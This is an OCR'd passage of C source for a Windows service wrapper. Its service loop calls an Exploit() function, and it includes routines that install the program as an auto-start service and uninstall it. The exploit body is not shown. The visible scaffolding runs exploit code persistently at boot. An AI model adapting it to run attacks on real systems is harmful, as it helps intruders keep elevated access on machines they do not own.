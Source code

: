 ```c

// running
serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
serviceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

Exploit();
WaitForSingleObject( stopServiceEvent, -1 );

// service was stopped
serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
SetServiceStatus( serviceStatusHandle, &serviceStatus );

// do cleanup here
CloseHandle( stopServiceEvent );
stopServiceEvent = 0;

// service is now stopped
serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
serviceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus( serviceStatusHandle, &serviceStatus );
}
}


void InstallService() {
SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

if ( serviceControlManager ) {
TCHAR path[ _MAX_PATH + 1 ];
if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
SC_HANDLE service = CreateService( serviceControlManager,
serviceName, serviceName,
SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
0, 0, 0, 0, 0 );
if ( service )
CloseServiceHandle( service );
}
CloseServiceHandle( serviceControlManager );
}
}

void UninstallService() {
SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CONNECT );

if ( serviceControlManager ) {
SC_HANDLE service = OpenService( serviceControlManager,
serviceName, SERVICE_QUERY_STATUS | DELETE );
if ( service ) {
SERVICE_STATUS serviceStatus;
if ( QueryServiceStatus( service, &serviceStatus ) ) {
if ( serviceStatus.dwCurrentState == SERVICE_STOPPED )
DeleteService( service );
}
CloseServiceHandle( service );
}
CloseServiceHandle( serviceControlManager );
}
}

int _tmain( int argc, TCHAR* argv[] )
{
```